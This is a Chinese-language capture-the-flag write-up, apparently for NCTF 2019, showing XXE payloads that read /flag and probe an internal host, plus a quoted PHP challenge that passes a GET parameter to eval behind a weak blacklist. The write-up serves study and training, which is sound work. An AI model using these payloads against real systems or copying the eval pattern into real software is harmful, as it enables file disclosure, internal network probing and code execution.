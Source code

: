 很简单的题目，但之前没学过xxe，趁这个机会学习一次。  

直接改POST即可。注入一个恶意的外部实体，使用file协议，根据题目提示读取flag。  

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
 <!ENTITY xxe SYSTEM "file:///flag">
 ]>

<user><username>&xxe;</username><password>asd</password></user>
```

`NCTF{W3lc0m3_T0_NCTF_9102}`

### TRUE XML cookbook

好像脑洞一样的题目。。依然是利用xxe。  

正解是去内网探测，但是为什么这样做呢？猜测是在不知道做什么的情况下，多收集主机信息，读取host，passwd等等各种文件，或者看一些log。  

读取`/etc/hosts`与`/proc/net/arp`推得内网存活主机ip为`192.168.1.8`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
 <!ENTITY xxe SYSTEM "http://192.168.1.8">
 ]>

<user><username>&xxe;</username><password>asd</password></user>
```

`NCTF{XXE-labs_is_g00d}`

### Hacker_BackDoor

首先审计代码，这里只显示关键代码

```php
<?php

$code = $_GET['code'];
$usrful = $_GET['useful'];

function waf($a){
    $dangerous = get_defined_functions();
    array_push($dangerous["internal"], 'eval', 'assert');
    foreach ($dangerous["internal"] as $bad) {
        if(strpos($a,$bad) !== FALSE){
        return False;
        break;
        }
    }
    return True;
}

if(file_exists($usrful)){
    if(waf($code)){
        eval($code);
    }
    else{
        die("oh,不能输入这些函数哦 :) ");
    }
} 
```
